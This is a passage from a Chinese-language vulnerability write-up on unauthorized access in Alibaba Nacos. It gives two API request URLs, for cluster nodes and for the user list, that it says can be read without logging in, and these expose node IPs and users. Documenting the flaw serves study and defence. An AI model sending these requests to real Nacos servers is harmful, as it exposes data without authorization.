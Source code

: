 可以再项目的 issues 中看到大量的关于越权的安全问题的讨论

  

https://github.com/alibaba/nacos/issues/1105

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-2.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-3.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-4.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

这里的请求url简化为

  

http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=

  

退出用户后在前台访问这个 url

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-5.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

可以发现以及泄露了 \*\*ip节点\*\* 等数据

  

同样我们查看用户列表的请求并在前台访问

  

http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-7.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-6.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)
